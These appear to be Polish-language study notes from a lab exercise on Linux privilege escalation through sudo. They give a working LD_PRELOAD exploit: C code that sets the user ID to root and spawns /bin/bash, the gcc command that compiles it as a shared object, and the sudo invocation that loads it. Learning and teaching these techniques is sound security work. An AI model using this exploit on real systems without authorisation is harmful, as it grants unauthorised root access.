

Sudo pozwala na uruchamianie programów z prawami roota.

Dostępne prawa roota dla danego użytkownika `sudo -l`

[https://gtfobins.github.io/](https://gtfobins.github.io/) - dobre źródło które zapewnia informacje jak każdy program który ma prawa sudo i do którego jest dostęp można wykorzystać

## Wykorzystanie funkcji aplikacji

Niektóre aplikacje nie mają bezpośrednio exploita ale odpalanie ich jako sudo może spowodować wystąpienie exploita np odpalenie vim jako sudo pozwala na wykonywanie poleceń jako sudo w systemie.

## Wykorzystanie LD_PRELOAD

Na niektórych systemach jest zmienna środowiskowa LD_PRELOAD


Jest to funkcja która pozwala dwolnemu programowi używać współdzielonych bibliotek. Tutaj jest więcej info o tym [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) . Jeżeli env_keep jest włączone to można wygenerować wspólną bibliotekę która będzie załadowana i wykonana zanim program się uruchomi.
Ważne - opcja LD_PRELOAD będzie zignorowana jeżeli prawdziwe user ID będzie inne niż effectife user ID

#### Podsumowanie w krokach:
1. Sprawdzenie tego LD_PRELOAD przez `sudo -l`
2. Napisanie prostego kompilowalnego kodu w C jaho share object (rozszerzenie .so)
3. Odpalenie programu z prawami sudo i to LD_PRELOAD załaduje to .so

Kod może wyglądać tak:

```
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

Kompilacja tego kodu do tego share object:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

#### Przykład

Teraz np `sudo -l` zwraca coś takiego:
```
Matching Defaults entries for karen on ip-10-10-201-65:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-201-65:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```
Tu widać że działa jako sudo find, less i nano.
Wystarczy odpalić `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find` i to wykona jako sudo ten kod w C i da nam dostęp do roota.